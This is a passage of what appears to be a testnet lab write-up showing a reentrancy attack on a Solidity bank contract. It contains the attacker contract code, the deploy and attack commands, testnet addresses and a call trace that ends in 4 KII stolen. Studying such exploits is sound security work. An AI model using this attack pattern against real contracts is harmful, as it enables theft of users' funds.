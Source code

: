 **Step 2: Created Attacker Contract**

```solidity
contract ReentrancyAttacker {
    uint256 public attackCount;
    uint256 public maxAttacks = 5;
    
    function attack(uint256 amount) external {
        targetBank.withdraw(amount);
    }
    
    // ⚠️ REENTRANCY HAPPENS HERE
    receive() external payable {
        attackCount++;
        if (attackCount < maxAttacks) {
            // Call withdraw AGAIN before balance updates!
            targetBank.withdraw(withdrawAmount);
        }
    }
}
```

**Step 3: Deployed to Testnet**

```bash
npm run compile  # Compile Solidity contracts
npm run deploy-defi  # Deploy to KiiChain Testnet Oro
```

**Deployed Addresses:**
- Bank: `0xa38DECA7e891fDfdce7E07581a6140D82dbc393d`
- Attacker: `0x2B07540f6dC9488309774Cb997CCeab79f16c90F`
- Initial Bank Balance: 15 KII

**Step 4: Executed Attack**

```bash
npm run defi-attack -- <bank> <attacker>
```

**Attack Flow:**

```
Attacker deposited:        5.0 KII
Attempted withdrawal:      1.0 KII
  ├─ Call 1: withdraw(1)   → Send 1 KII ✓
  │  └─ Trigger receive()
  │     └─ Call 2: withdraw(1) → Send 1 KII ✓ [REENTRANCY]
  │        └─ Trigger receive()
  │           └─ Call 3: withdraw(1) → Send 1 KII ✓ [REENTRANCY]
  │              └─ ... continues for 5 total calls
  │
  └─ Balance updated: 5 - 1 = 4 KII (only once!)

Actual withdrawn: 5.0 KII
Balance deducted: 1.0 KII
Stolen: 4.0 KII 💸
```
